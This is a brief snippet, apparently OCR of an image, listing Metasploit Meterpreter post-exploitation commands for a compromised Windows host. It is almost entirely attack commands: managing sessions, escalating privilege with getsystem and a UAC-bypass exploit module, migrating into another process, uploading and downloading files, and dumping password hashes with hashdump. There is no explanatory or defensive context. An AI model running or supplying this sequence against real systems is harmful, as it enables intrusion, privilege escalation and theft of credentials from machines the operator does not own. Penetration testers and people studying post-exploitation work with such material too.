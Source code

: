 ```
shell
background
sessions -l
sessions -i 1
ps
sysinfo
getuid
getpid
getsystem     # privilege escalation
   # if privilege escalation denial 
   run post/windows/gather/win_privs
   search uac
   use exploit/windows/local/bypassuac
   set session
   migrate <pid>
download x /root/
upload x C:\\Windows
use post/windows/gather/hashdump
```
